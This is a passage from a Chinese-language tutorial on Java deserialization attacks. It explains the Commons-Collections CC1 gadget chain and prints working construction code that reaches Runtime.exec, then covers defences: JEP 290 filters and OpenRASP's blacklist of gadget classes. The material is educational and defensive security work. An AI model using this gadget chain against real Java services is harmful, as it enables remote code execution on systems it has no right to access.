        // 这里的 factory 则为我们实例化时传入的 Transformer对象
        // 由此，lazyMap.get()触发了 transformerChain.transform()
        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        Constructor<?> c =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        c.setAccessible(true);

        // step3
        // handler2 为 AnnotationInvocationHandler的实例化对象
        // AnnotationInvocationHandler用于获取一些方法关于某个注解的内容，
        // 构造函数中，分别传入 注解类型、注解成员变量及其值（这里表现为 目标方法的注解值）
        // handler2.invoke() 调用 memberValues.get（）方法，即调用 lazyMap.get()
        InvocationHandler handler2 = (InvocationHandler) c.newInstance(Override.class, lazyMap);

        // step2
        // mapProxy为动态生成的代理类的实例对象，代理了Map Interface相关方法，InvocationHandler为handler1
        // mapProxy.entrySet()被调用后，触发handler1的invoke()方法来实现动态代理功能
        Map mapProxy = (Map) Proxy.newProxyInstance(Thread.currentThread().getContextClassLoader()
                , new Class<?>[]{Map.class}, handler2);


        // step1
        // handler1 为 AnnotationInvocationHandler的实例化对象
        // 通过 AnnotationInvocationHandler readObject魔术方法触发 mapProxy的entrySet()
        InvocationHandler handler1 = (InvocationHandler) c.newInstance(Override.class, mapProxy);

        return handler1;
    }
```

反序列化中我们会利用到两个AnnotationInvocationHandler对象，他们各有作用。

首先是step 1：先来到魔术方法 `AnnotationInvocationHandler#readObject`，方法中先调用 `defaultReadObject()` 完成成员字段的初始化，之后通过 `memberValues.entrySet()` 进入我们的 chain



step2：handler1的`memberValues`为 `mapProxy` ，mapProxy代理了接口Map的相关方法，其中包括了 entrySet，于是当 mapProxy.entrySet() 被调用后，会触发 mapProxy的InvocationHandler的invoke方法，即handler2.invoke。invoke方法中调用 memberValues.get ，对应为 lazyMap.get



step3：`memberValues`为 `handler2 = (InvocationHandler) c.newInstance(Override.class, lazyMap)`中传入的 `lazyMap`，即` memberValues.get` 实际为  `lazyMap.get` 。

`LazyMap`的实例化`lazyMap = LazyMap.decorate(innerMap, transformerChain)`需要一个` Map`对象 与一个` Transformer `对象，当`LazyMap.get(key)`的入参`key`不在当前映射表中时，会先通过 `factory.transform(key) `获取value，然后保存key-value；这里的 factory 则为一个 `ChainedTransformer` 对象 。



step4：`ChainedTransformer.transform` 方法会遍历字段`Transformer[] iTransformers`进行迭代式的处理；循环中，将当前transform输出作为下一个transform的输入。



step5: ConstantTransformer忽略输入的数据，单纯返回 Runtime.Class，该输出作为下个Transformer的输入；第一个InvokerTransformer 的输入为Runtime.class，返回 method 对象，之后再调用该 method对象的invoke方法来反射调用Runtime.getRuntime获取到一个Runtime对象，通过Runtime对象我们才能执行exec来执行命令。熟悉Java反射后更容易理解这里的 InvokerTransformer 。通过这一系列的循环，即 Runtime.class -> Runtime.class.getMethod("getRuntime") ->  method.invoke()  -> Runtime.exec("calc")

```java
      final Transformer[] iTransformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, execArgs),
        };
```

```java
public class ConstantTransformer implements Transformer, Serializable {
...
    public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return iConstant;
    }
    
```

```java
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }

    public Object transform(Object input) {
    ...
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);
    ...
```

cc1在普遍在JDK >=8（Oracle-JDK、OpenJDK-ubuntu等）中不能使用了 ,在 OpenJDK官方版本<=8理论上还可使用。

可以看到，oracle jdk8等版本代码中，memberValues 类型被固定为 LinkedHashMap：



openjdk-8官方版本代码倒是没有做改动：

https://github.com/openjdk/jdk/blob/jdk8-b120/jdk/src/share/classes/sun/reflect/annotation/AnnotationInvocationHandler.java#L329



## 4. 防御问题

针对反序列化的防护，一方面除了在流量侧，防守方会尝试通过 防火墙、NIDS 设备从产生从流量中捕获含有“黑名单”关键字的请求。另外一方面，在代码侧，早期业务方会尝试通过重写序列化类来添加黑名单，如[SerialKiller项目](https://github.com/ikkisoft/SerialKiller/blob/master/src/main/java/org/nibblesec/tools/SerialKiller.java)，但在代码中设置黑白名单比较简单的方法则是通过JEP290。也可以通过RASP中在序列化流量入口、序列化解析到的目标类、命令执行线程堆栈  这些地方添加 黑名单 进行拦截或检测。黑名单通常为  工具的包名（如 ysoserial.）、流行构造链的关键类（commonscollection等），另外可能用是否存在“命令执行+线程堆栈含有反序列化流程”来判断是否攻击行为。

### JEP290

[JEP](https://openjdk.org/jeps/0)（JDK Enhancement Proposals）表示JDK增强提案，其中[JEP 290](https://openjdk.org/jeps/290)用于增强JDK反序列化的安全性，实际有如下机制

- 提供过滤器，过滤器包含以下功能的配置：黑白名单、反序列化输入大小、反序列化链路深度、数组数量、对象引用
- 用户可为单个ObjectInputStream对象设置反序列化类过滤器，仅限JDK>=9
- 用户可在Java命令参数中或环境变量中通过`jdk.serialFilterz`的值来设置全局的反序列化过滤黑白名单
- 针对RMI Registry、DGC 添加了过滤机制，并内置了白名单

其中第3、第4点 ，在`JDK8u121、JDK7u131、JDK6u141` [这些版本都有实现 ](https://blogs.oracle.com/java/post/filter-incoming-serialization-data-a-little-of-jdk-9-goodness-available-now-in-current-release-families)。反序列化的防护这块，后续新增了JEP 415用于强调不同上下文中使用不同的过滤器，且过滤器可组合。

我们在下面代码中通过环境变量设置了过滤名单，黑名单前面带有`!`符号，表示取反，这一系列的名单为串联逻辑：

```java
        System.setProperty("jdk.serialFilter", "com.test.Foo;!sun.reflect.annotation.AnnotationInvocationHandler;");

        String file = "testdefend.ser";
        Utils.Serialize(TestCC1.getCC1("calc"), file);
        Utils.Deserialize(file);
```

控制台输出如下，：

```
INFO: ObjectInputFilter REJECTED: class sun.reflect.annotation.AnnotationInvocationHandler, array length: -1, nRefs: 1, depth: 1, bytes: 129, ex: n/a
Exception in thread "main" java.io.InvalidClassException: filter status: REJECTED
	at java.io.ObjectInputStream.filterCheck(ObjectInputStream.java:1255)
	at java.io.ObjectInputStream.readNonProxyDesc(ObjectInputStream.java:1878)
	at java.io.ObjectInputStream.readClassDesc(ObjectInputStream.java:1751)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2042)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
	at com.demo.common.Utils.Deserialize(Utils.java:16)
	at com.demo.defend.TestDefend.main(TestDefend.java:13)


```

### 简析OpenRASP

这里对openrasp如何防御JDK反序列化做简要的说明以让大家有所了解。

openrasp针对JDK反序列化有两个防护点，首先钩挂反序列化解析目标类 resolveClass ，在这里添加黑名单：

```java
// com.baidu.openrasp.hook.DeserializationHook#hookMethod
	protected void hookMethod(CtClass ctClass) throws IOException, CannotCompileException, NotFoundException {
        String src = getInvokeStaticSrc(DeserializationHook.class, "checkDeserializationClass",
                "$1", ObjectStreamClass.class);
        insertBefore(ctClass, "resolveClass", "(Ljava/io/ObjectStreamClass;)Ljava/lang/Class;", src);
    }
```

resolveClass 处对应的黑名单列表：

```js
// \openrasp-1.3.7\plugins\official\plugin.js
deserialization_blacklist: {
        name:   '算法1 - 反序列化黑名单过滤',
        action: 'block',
		clazz: [
            'org.apache.commons.collections.functors.ChainedTransformer',
            'org.apache.commons.collections.functors.InvokerTransformer',
            'org.apache.commons.collections.functors.InstantiateTransformer',
            'org.apache.commons.collections4.functors.InvokerTransformer',
            'org.apache.commons.collections4.functors.InstantiateTransformer',
            'org.codehaus.groovy.runtime.ConvertedClosure',
            'org.codehaus.groovy.runtime.MethodClosure',
            'org.springframework.beans.factory.ObjectFactory',
            'org.apache.xalan.xsltc.trax.TemplatesImpl',
            'com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',
            'com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase'
        ]
    },
```

其次，针对命令执行、写文件、列目录的钩挂点，openrasp 会检查线程堆栈是否有黑名单，包括gadget关键类、漏洞利用工具关键字。



针对 openrasp 这种在命令执行HOOK点上来进行的线程堆栈的黑名单检测思路，KCON 2023  [Magic In Java Api](https://github.com/knownsec/KCon/blob/master/2023/Magic In Java Api.pdf) 议题中分享了一种能在反序列化中利用的新污点，该污点会通过创建新线程来执行命令。而实际上，黑名单机制时一种不完善的安全机制，更需要维护。

## 5. 总结

本文带大家入门学习了JDK反序列化，更进一步的知识还包括各构造链的学习以及构造链挖掘工具的使用。


相关参考

构造java探测class反序列化gadget _ 回忆飘如雪

Java 反序列化漏洞（一） - 前置知识 & URLDNS _ 素十八

Java帝国之动态代理 https://mp.weixin.qq.com/s/cTJ_IankiFOdwZZLq3mHQA

ysuserial  https://github.com/wgetnz/ysoserial
